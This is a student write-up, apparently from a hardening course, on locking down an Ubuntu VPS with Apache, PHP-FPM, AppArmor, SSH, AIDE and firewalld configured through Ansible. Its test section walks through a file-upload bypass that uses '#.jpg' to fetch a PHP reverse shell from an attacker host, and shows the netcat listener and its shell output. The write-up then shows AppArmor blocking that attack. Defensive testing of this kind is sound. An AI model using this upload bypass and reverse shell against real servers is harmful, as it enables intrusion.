


> Protocol for System Hardening class 
>
> Authors: Oskar, Alex

# Introduction

This protocol describes the configurations to create a hardened Linux system - Ubuntu Server in our case. The configured services & changed configurations are described here, the complete configuration is available as Ansible playbook in [this](https://github.com/oscavian/syshard-playbooks) repository.

As part of our system hardening class, we chose to purchase a virtual server from netcup to simulate a real-world scenario. By running an insecure web application and possibly a proxy on the server, we automatically expose our configuration to the internet, allowing us to assess its efficiency in a live environment.

- [Introduction](#introduction)
  - [VPS](#vps)
- [OS Installation and initial setup](#os-installation-and-initial-setup)
- [Ansible](#ansible)
  - [Local Ansible configuration](#local-ansible-configuration)
  - [Playbook](#playbook)
- [Application Stack](#application-stack)
  - [Apache2](#apache2)
    - [Apparmor profile](#apparmor-profile)
  - [PHP-FPM](#php-fpm)
    - [Apparmor profile](#apparmor-profile-1)
  - [SSHD](#sshd)
  - [Aide](#aide)
  - [Firewalld](#firewalld)
  - [Shadowsocks](#shadowsocks)
  - [Tests](#tests)
    - [Host enumeration](#host-enumeration)
    - [Lynis](#lynis)
    - [Remote Code Execution](#remote-code-execution)
  - [Resources](#resources)


## VPS
For our Virtual Machine we chose Netcups VPS 200 G10s with the following specs:
https://www.netcup.eu/vserver/vps.php
- 2vCores
- 2 GB RAM
- 40 GB SSD (RAID10)
- 80 TB Traffic

# OS Installation and initial setup
Considering various options such as multiple partitions and file system encryption, we experimented with setups like employing multiple logical volumes within a logical volume group using LUKS encryption. 

*draft*


However, for the sake of simplicity, particularly because our server won't be used for storing sensitive data, we ultimately opted to install the system on a single partition.

**Accounts**

We decided to create two Accounts with sudo privileges to execute the ansible playbooks.

```bash
# create admin accounts
sudo useradd -m -s /bin/bash -G sudo alex
sudo useradd -m -s /bin/bash -G sudo oskar
```

```bash 
# create .ssh directories and deploy public keys
# alex
su alex
mkdir /home/alex/.ssh
echo "<alex public key>" > /home/alex/.ssh/authorized_keys

# oskar
su oskar
mkdir /home/oskar/.ssh
echo "<oskar public key>" > /home/oskar/.ssh/authorized_keys
```

initial sshd changes to stop the chinese brute force attack
```bash
# etc/ssh/sshd_config
PermitRoorLogin no
PubkeyAuthentication yes
PasswordAuthentication no
```



# Ansible

## Local Ansible configuration
**local installation and setup**
```bash
# install ansible
python3 -m pip install --user ansible

# add executables to path
export PATH="/Users/alex/Library/Python/3.11/bin:$PATH"

# > or via your favourite package manager

# install additional collections
ansible-galaxy collection install community.general

```

To execute our playbooks, we use our personal admin accounts
```
ansible-playbook site.yml --ask-become-pass -i inventory
```

## Playbook

For our Ansible playbook, we applied the convention of creating different roles per configured service with seperate task, handlers and files/templates.

This is how the directory structure looks like:

```bash
├── roles
│   ├── aide
│   │   ├── files
│   │   │   └── aide.conf
│   │   ├── handlers
│   │   │   └── main.yml
│   │   └── tasks
│   │       └── main.yml
│   ├── apparmor
│   │   ├── files
│   │   │   └── apparmor.d
│   │   │       ├── usr.sbin.apache2
│   │   │       └── usr.sbin.php8.1-fpm
│   │   ├── handlers
│   │   │   └── main.yml
│   │   └── tasks
│   │       ├── apache_profile.yml
│   │       ├── main.yml
│   │       ├── php8.1-fpm_profile.yml
│   │       └── sshd_profile.yml
│   ├── firewall
│   │   ├── handlers
│   │   │   └── main.yml
│   │   └── tasks
│   │       └── main.yml
│   ├── lynis
│   │   ├── files
│   │   │   └── Lynis
│   │   │       └── default.prf.j2
│   │   └── tasks
│   │       └── main.yml
│   ├── rkhunter
│   │   ├── files
│   │   │   ├── rkhunter
│   │   │   └── rkhunter.conf
│   │   ├── handlers
│   │   │   └── main.yml
│   │   └── tasks
│   │       └── main.yml
│   ├── server
│   │   ├── tasks
│   │   │   └── main.yml
│   │   └── templates
│   │       ├── alex_keys
│   │       └── oskar_keys
│   ├── shadowsocks
│   │   ├── files
│   │   │   ├── config.json
│   │   │   └── config.json.template
│   │   ├── handlers
│   │   │   └── main.yml
│   │   └── tasks
│   │       └── main.yml
│   ├── ssh
│   │   ├── handlers
│   │   │   └── main.yml
│   │   └── tasks
│   │       └── main.yml
│   └── web
│       ├── files
│       │   ├── apache2
│       │   │   ├── conf-available
│       │   │   │   ├── charset.conf
│       │   │   │   ├── localized-error-pages.conf
│       │   │   │   ├── other-vhosts-access-log.conf
│       │   │   │   └── security.conf
│       │   │   ├── sites-available
│       │   │   │   ├── 000-default.conf
│       │   │   │   ├── default-ssl.conf
│       │   │   │   ├── phpsysinfo.conf
│       │   │   │   └── webapp.conf
│       │   │   ├── apache2.conf
│       │   │   ├── envvars
│       │   │   ├── magic
│       │   │   └── ports.conf
│       │   ├── php
│       │   │   └── 8.1
│       │   │       └── fpm
│       │   │           └── php.ini
│       │   └── webapp.tar.gz
│       ├── handlers
│       │   └── main.yml
│       └── tasks
│           ├── apache2.yml
│           ├── application.yml
│           ├── application.yml.old
│           ├── main.yml
│           └── php.yml
├── README.md
└── site.yml

```

# Application Stack

For our exercise, we chose to configure the following services:
- `apache2`
- `php8.1-fpm`
- `firewalld`
- `aide`
- `ssh`
- `shadowsocks`
- `rkhunter`

Additionally we tried to configure apparmor profiles for a few of our services.

## Apache2

The following files & modules were changed/configured as follows:

---
**Modules**

Enabled:
- `mpm_event`
- `headers` - to enable custom header configs
- `apparmor` - for apparmor functionality
- `proxy` - to make php-fpm work
- `proxy_fcgi` - to make php-fpm work

Disabled:
- `autoindex` - negate all directory indexing, we don't need it anyway
- `mpm_prefork` - would conflict with mpm_event

---
**/etc/apache2/apache2.conf**

Disallow access to the whole filesystem as default, no override by .htaccess files allowed
```apache
<Directory />
   AllowOverride None
   Require all denied
</Directory>
```

Set the default Apparmor hat to be used, in this case 'DEFAULT_URI' is the default anyways. As we only host one site on our webserver, multiple hats were not necessary.
```apache
<IfModule mod_apparmor.c>
	AADefaultHatName DEFAULT_URI
</IfModule>
```

---
**/etc/apache2/sites-available/webapp.conf**

For our demo application, we created a seperate virtual host.

```apache
<VirtualHost *:80>

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/webapp

	<Directory /var/www/webapp/>
		AllowOverride None
		Require all granted
    
    # set apparmor hat (just to be sure)
    <IfModule mod_apparmor.c>
	        AAHatName DEFAULT_URI
    </IfModule>
	</Directory>

	# Set php-fpm as script interpreter 
  <FilesMatch \.php$>
		SetHandler "proxy:unix:/run/php/php8.1-fpm.sock|fcgi://localhost/"
	</FilesMatch>
</VirtualHost>
```

---
**/etc/apache2/conf-available/security.conf**

```apache

# return least amount of information in a response
ServerTokens Prod

# disable adding line with server version and virtual hostname to server-generated pages
ServerSignature Off


# Forbid access to version control directories
RedirectMatch 404 /\.git
RedirectMatch 404 /\.svn


# Setting this header will prevent MSIE from interpreting files as something
# else than declared by the content type in the HTTP headers.
# Requires mod_headers to be enabled.
Header set X-Content-Type-Options: "nosniff"

# Setting this header will prevent other sites from embedding pages from this
# site as frames. This defends against clickjacking attacks.
# Requires mod_headers to be enabled.
Header set Content-Security-Policy "frame-ancestors 'self';"
```

### Apparmor profile

In order to use apparmor with apache2 you need to:
- install the `libapache2-mod-apparmor` package
- enable the `apparmor` apache module
- configure your apparmor profile

As the default apparmor profile for apache is very permissive and blocks almost nothing, we needed to generate our own profile, which works like this:

(taken from the CIS Benchmark for the Apache Http Server 2.4 v2, shortened)

- stop the apache2 server `# systemctl stop apache2`
- remove the default profile `# rm /etc/apparmor.d/usr.sbin.apache2`
- create a new mostly empty profile `# aa-autodep apache2`
- set the profile to complain mode `# aa-complain apache2`
- start the server again `systemctl start apache2`
- test every functionality possible of the web application, restart apache at least once
- as apparmor recorded every access, we can now use `# aa-logprof` to generate rules out of these logs. It will prompt for suggested modifications to the profile. 
- reload the profile using `# apparmor_parser -r /etc/apparmor.d/usr.sbin.apache2`
- repeat this process until `/var/log/syslog` and/or `/var/log/kern.log` don't display any unwanted DENIED messages anymore
- set the profile to enforce mode using `aa-enforce /usr/sbin/apache2`
- reload apache2 `systemctl reload apache2`

The profile then should look something like this:

```apparmor
abi <abi/3.0>,

include <tunables/global>

/usr/sbin/apache2 flags=(attach_disconnected) {
  include <abstractions/base>
  include <abstractions/dovecot-common>
  include <abstractions/nameservice>
  include <abstractions/postfix-common>
  include <apache2.d>
  include if exists <local/usr.sbin.apache2>

  capability dac_override,
  capability kill,
  capability net_bind_service,
  capability setgid,
  capability setuid,
  capability sys_tty_config,
  
  [...]
  
  
  # This is called 'hat', basically a sub-profile one can assign to a specific host 
  ^DEFAULT_URI flags=(attach_disconnected) {
    include <abstractions/base>
    include <abstractions/nameservice>

    # Allow read access to web files
    /var/www/** r,

    # Allow writing log files
    /var/log/apache2/access.log w,
    /var/log/apache2/error.log w,

    # IMPORTANT to make PHP-FPM work (incl. 'owner' keyword)
    owner /run/php/php8.1-fpm.sock rw,
    
    # php-fpm uses unix sockets
    network unix,
    unix (send, receive, connect, bind),
    unix peer=(label=@{profile_name}),

  }

  [...]
}
```

## PHP-FPM

The PHP FastCGI Process Manager is used to outsource PHP interpretion to a different process not only to enhace performance, but also security.

The following files & modules were changed/configured as follows:

---
**/etc/php/8.1/fpm/php.ini**

```ini

# Ensure errors are not sent to the user/stdout as they could contain sensitive information
display_errors = Off

# Rather than displaying errors, save them in a log file
log_errors=On
error_log = /var/log/php_errors.log

# Disallow any treatment of URLs as files, in our case we dont need it and it prevents RCE
allow_url_fopen = Off

# Limit resources - if a script gets compromised, it will stop after a certain amount of seconds or if it exceeds the mem limit
max_execution_time = 25
max_input_time = 25
memory_limit = 30M

# Uploading files is crucial to many php applications, but is also a security risk.
# This can be mitigated by limiting the max. upload size and file amount per request, less is better.
# The exact practical size is very unique to the running application.
upload_max_filesize = 1M
max_file_uploads = 5

# This functions are often used by adversaries to do malicious things, so disabling them prevents that.
disable_functions = exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source 

# Limit file operations to webroot, tmp_upload & session directory
open_basedir = "/var/www:/var/lib/php/tmp_upload:/var/lib/php/session"

# Set the directory for uploading files
upload_tmp_dir = "/var/lib/php/tmp_upload"

```

### Apparmor profile

This is how the apparmor profile for php-fpm looks like. The configuration works the same way as with apache, just without hats.

```
#include <tunables/global>

/usr/sbin/php-fpm8.1 flags=(attach_disconnected) {
  #include <abstractions/apache2-common>
  #include <abstractions/base>
  #include <abstractions/php5>

  capability,

  # allow unix socket comm
  network unix,

  # deny any other network comm 
  audit deny network inet,

  # php-fpm needs to receive calls from apache2
  unix (receive),
  unix peer=(label=@{profile_name}),

  /etc/group r,
  /etc/nsswitch.conf r,
  /etc/passwd r,
  
  # allow access to configuration files
  /etc/php/8.1/** r,
  /etc/php/8.1/** r,
  /proc/filesystems r,
  
  # allow access to socket
  /run/php/php8.1-fpm.pid rw,
  /run/php/php8.1-fpm.sock rw,
  
  /run/systemd/notify w,
  /tmp/ rw,
  /usr/sbin/php-fpm8.1 mrPix,
  /var/log/php8.1-fpm.log w,

  # only allow read access to web root
  /var/www/** r,
  
  # allow access to session paths & tpm_upload
  /var/lib/php/** rw
}
```


## SSHD

To harden our openssh server, we implemented the recommended configuration from the mozilla infosec guidelines.
https://infosec.mozilla.org/guidelines/openssh.html

```bash
# Supported HostKey algorithms by order of preference.
HostKey /etc/ssh/ssh_host_ed25519_key
HostKey /etc/ssh/ssh_host_rsa_key
HostKey /etc/ssh/ssh_host_ecdsa_key

KexAlgorithms curve25519-sha256@libssh.org,ecdh-sha2-nistp521,ecdh-sha2-nistp384,ecdh-sha2-nistp256,diffie-hellman-group-exchange-sha256

Ciphers chacha20-poly1305@openssh.com,aes256-gcm@openssh.com,aes128-gcm@openssh.com,aes256-ctr,aes192-ctr,aes128-ctr

MACs hmac-sha2-512-etm@openssh.com,hmac-sha2-256-etm@openssh.com,umac-128-etm@openssh.com,hmac-sha2-512,hmac-sha2-256,umac-128@openssh.com

# Password based logins are disabled - only public key based logins are allowed.
AuthenticationMethods publickey

# LogLevel VERBOSE logs user's key fingerprint on login. Needed to have a clear audit track of which key was using to log in.
LogLevel VERBOSE

# Log sftp level file access (read/write/etc.) that would not be easily logged otherwise.
Subsystem sftp  /usr/lib/ssh/sftp-server -f AUTHPRIV -l INFO

# Root login is not allowed for auditing reasons. This is because it's difficult to track which process belongs to which root user:
#
# On Linux, user sessions are tracking using a kernel-side session id, however, this session id is not recorded by OpenSSH.
# Additionally, only tools such as systemd and auditd record the process session id.
# On other OSes, the user session id is not necessarily recorded at all kernel-side.
# Using regular users in combination with /bin/su or /usr/bin/sudo ensure a clear audit track.
PermitRootLogin No
```
In addition to that, we restricted access to the *sshusers* group.


## Aide

We decided to use aide as our intrusion detection system.

In the config file, we added the following config options:

```ini
# Set log file location, default is stdout
report_url=file:/var/log/aide.log

# check for inconsistencies in
# permissions (p), inode (i), number of links (n), user (u), group (g), size (s), mtime (m), ctime (c)
# and SHA256/512 checksums
NORMAL = p+i+n+u+g+s+m+c+sha256+sha512

# Don't bother using hashes for directories
DIR = p+i+n+u+g

# Only report content changes
DATAONLY = p+n+u+g+s+sha256
```

And these are our configured rules:
```ini

# Directories used by apache2 & php-fpm
/var/www DIR

# Files that change their contents during system operation
/var/www/* DATAONLY

# System Directories

/boot DIR
/bin DIR
/sbin DIR
/lib DIR
/lib64 DIR
/opt DIR
/usr DIR
/root DIR
/etc DIR

# Some system files that need to be watched closely

/etc/fstab NORMAL
/etc/passwd NORMAL
/etc/group NORMAL
/etc/gshadow NORMAL
/etc/shadow NORMAL
/etc/hosts.allow NORMAL
/etc/hosts.deny NORMAL
/etc/sudoers NORMAL
/etc/profile NORMAL
/etc/bashrc NORMAL
/etc/login.defs NORMAL
/etc/hosts NORMAL
/etc/modprobe.conf NORMAL
/etc/sysctl.conf NORMAL
/etc/ssh/sshd_config NORMAL
/etc/issue NORMAL
```

Additionally, we created a cronjob that checks the filesystem every day.

```cron
#Ansible: aide scheduled db check
* * 1 * * aide --config=/etc/aide/aide.conf --check
```


## Firewalld
Since we only use the firewall to protect the host from the outside world, we decided to use a single zone.
We use the default public zone config and additionally drop all ICMP requests.

To configure the firewall rules, we used the firewalld module for ansible:

```yaml
---
- name: drop all ICMP requests and other traffic
  ansible.posix.firewalld:
    zone: public
    state: enabled
    permanent: true
    target: DROP
  notify: reload firewalld

- name: permit SSH traffic for public zone
  ansible.posix.firewalld:
    service: ssh
    zone: public
    permanent: true
    state: enabled
  notify: reload firewalld

- name: permit HTTPS requests to the webserver
  ansible.posix.firewalld:
    service: http
    zone: public
    permanent: true
    state: enabled
  notify: reload firewalld

- name: permit tcp traffic on port 8388 for shadowsocks
  ansible.posix.firewalld:
    rich_rule: rule family=ipv4 port port=8388 protocol=tcp accept
    zone: public
    permanent: true
    immediate: true
    state: enabled
  notify: reload firewalld
```

## Shadowsocks
To avoid squandering the resources of our VPS we decided to install a shadowsocks proxy.

shadowsocks-libev is installed via ansible.apt
the actual config file is excluded from git to keep the password secret
```json
{
    "server":"server ip",
    "server_port":8388,
    "password":"password",
    "timeout":300,
    "method":"aes-256-cfb",
    "fast_open": true
}
```


## Tests

### Host enumeration

```bash
alex@kali:~$ sudo nmap -sS -sV {ip} -p 22,80,443,8388
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-18 20:27 CEST
Nmap scan report for v2202305199910228407.ultrasrv.de ({ip})
Host is up (0.015s latency).

PORT     STATE  SERVICE VERSION
22/tcp   open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http    Apache httpd
443/tcp  closed https
8388/tcp open   unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 165.51 seconds

```

### Lynis

We used the lynis ansible playbook from our moodle-course for the system audit.
The full report is included in the attachment.
```bash
================================================================================

  -[ Lynis 3.0.7 Results ]-

  Great, no warnings

  No suggestions

================================================================================

```

### Remote Code Execution
To test the hardening configuration of the apache2 web-server, we "repurposed" the web-application from a simple tryhackme CTF(https://tryhackme.com/room/opacity). 
This application consists of dummy login page and a vulnerable file upload.
**PoC**
By scanning our webserver for hidden directories with gobuster, we can find the route /cloud which points to the file upload.

```bash
alex@kali:~$ gobuster dir -u http://{ip} -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://{ip}
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/18 08:46:54 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 233] [--> http://{ip}/css/]
/javascript           (Status: 301) [Size: 240] [--> http://{ip}/javascript/]
/cloud                (Status: 301) [Size: 235] [--> http://{ip}/cloud/]
Progress: 81644 / 81644 (100.00%)
===============================================================
2023/06/18 08:58:48 Finished
===============================================================
```

http://{ip}/cloud/
<media-tag src="https://files.cryptpad.fr/blob/8d/8daf9ac849ec21e4dbb47ad964d87646024957588a06dbf5" data-crypto-key="cryptpad:g7TDK6nCE326MYJ/uSKrvITXcllbohg1lFqXwYWuqGY="></media-tag>

There are many different ways to bypass fileextension checks (https://book.hacktricks.xyz/pentesting-web/file-upload).
The easiest way in this case is a comment char **'#'**.

This means we can prepare a php reverse shell (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) with IP adress and port of our attacking machine and serve it, so that we can download it to the target machine via the external URL. Either by uploading the shell.php somewhere or starting a local web-server(`python3 -m http.server 8080`), if  the attacking machine is reachable from the target machine.

In the next step we can *upload* the shell to the targe with "http://ATTACKING_MACHINE:8080/shell.php#.jpg". The upload form cuts off the filename at the # char, and downloads 'shell.php' to /cloud/images/shell.php.

Now, we only have to start a listener `nc -lnvp 4269` and call http://{ip}/cloud/images/shell.php to connect back.

Usually, we would get a shell as www-data:
```bash
alex@v2202305199910228407:~$ nc -lvnp 4269
Listening on 0.0.0.0 4269
Connection received on {ip} 60422
Linux v2202305199910228407 5.15.0-75-generic #82-Ubuntu SMP Tue Jun 6 23:10:23 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 09:36:16 up  1:53,  3 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
alex     pts/0    84.115.210.29    08:07    1:56   0.08s  0.01s sshd: alex [priv]   
alex     pts/1    84.115.210.29    09:34   48.00s  0.03s  0.04s sudo -i
alex     pts/2    84.115.210.29    09:35   16.00s  0.02s  0.00s nc -lvnp 4269
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

But thanks to our apparmor profile for php-fpm, the **RCE is blocked**. 

Kernel log entry:
```bash
Jun 18 10:19:51 v2202305199910228407 kernel: [ 9402.325597] audit: type=1400 
audit(1687076391.577:569): apparmor="DENIED" operation="create" 
profile="/usr/sbin/php-fpm8.1" pid=24513 comm="php-fpm8.1" family="inet" 
sock_type="stream" protocol=0 requested_mask="create" denied_mask="create"
```


## Resources
These are a few resources we used throughout creating our configurations

https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/security_guide/sec-managing_icmp_requests
https://mariadb.com/kb/en/existing-ansible-modules-and-roles-for-mariadb/
https://www.redhat.com/sysadmin/linux-security-aide
https://docs.ansible.com/ansible/latest/collections/ansible/posix/firewalld_module.html
https://www.atlantic.net/dedicated-server-hosting/detect-linux-security-holes-and-rootkits-with-rkhunter-on-ubuntu-20-04/
https://www.tecmint.com/linux-php-hardening-security-tips/
https://www.secjuice.com/apparmor-say-goodbye-to-remote-command-execution/
https://docs.ansible.com/ansible/latest/collections/ansible/posix/firewalld_module.html